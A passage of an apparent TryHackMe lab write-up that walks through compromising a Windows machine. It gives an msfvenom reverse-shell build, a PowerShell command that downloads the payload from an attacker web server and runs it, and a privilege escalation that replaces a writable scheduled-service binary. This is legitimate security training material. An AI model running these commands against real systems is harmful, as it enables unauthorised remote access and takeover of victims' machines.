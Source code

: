 First, we create a meterpreter reverse shell for windows with the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.90.103 LPORT=4444 -f exe > shell.exe
```

Then we start the Metasploit enviroment, use a multi/handler and set the parameters PAYLOAD, LHOST, LPORT to match with the set in our payload and run the handler.

Next we initiate a http server with python and use the following powershell command (runned on the cmd) to download on the victim machine the malicious binarie:

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.34.76:8000/shell.exe','shell.exe')"
```

Then, run the following powershell command to execute the binarie:

```cmd
powershell "Start-Process shell.exe"
```

And we have gained a meterpreter shell in the victim machine:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221011090052.png' | relative_url }}" text-align="center"/>
</div>

Then, in order to do enumeration job we are going to use the enumeration oriented script [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS). We have first to upload the binarie (from the binarie folder) and execute it:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221011104000.png' | relative_url }}" text-align="center"/>
</div>

WinPEAS offer us some important details like the existance of a folder holding the dependencies of a service (SystemScheduler) that is worldwritable:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221011104124.png' | relative_url }}" text-align="center"/>
</div>

Thus, we can perfom a Service Windows Privilege escalation attack. If we go to the C:\\Program Files x(86)\\SystemScheduler folder and open the logs we can see that the Administrator start the Message.exe binary often in time:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221011124132.png' | relative_url }}" text-align="center"/>
</div>

So we can substitute the Message.exe with a malicious binary created with MSFVenom:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221011124250.png' | relative_url }}" text-align="center"/>
</div>
